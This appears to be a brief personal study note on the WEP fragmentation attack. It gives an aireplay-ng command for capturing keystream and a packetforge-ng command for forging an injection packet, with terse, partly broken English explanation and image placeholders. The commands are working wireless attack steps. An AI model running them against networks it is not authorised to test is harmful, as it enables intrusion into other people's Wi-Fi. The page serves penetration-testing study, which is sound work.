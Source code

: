 # Fragmentation Attack

**Which attack number generator that used to generate random number to encryption**

```bash
aireplay-ng -5 -b BSSID_AP -h wlan_Bssid wlan0

# -5 -> refer to fragmentation attack
```

> need one packet to make this attack-b

![image.png](<../../../.gitbook/assets/image (2) (1).png>)

***

### Packet injection (Forging)

```bash
packetforge-ng -0 -a D8:29:18:0A:08:91 -h 7c:3d:09:00:07:47 -k 255.255.255.255 -l 255.255.255.255 fileFromFregmentAttack -w any_name
```

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
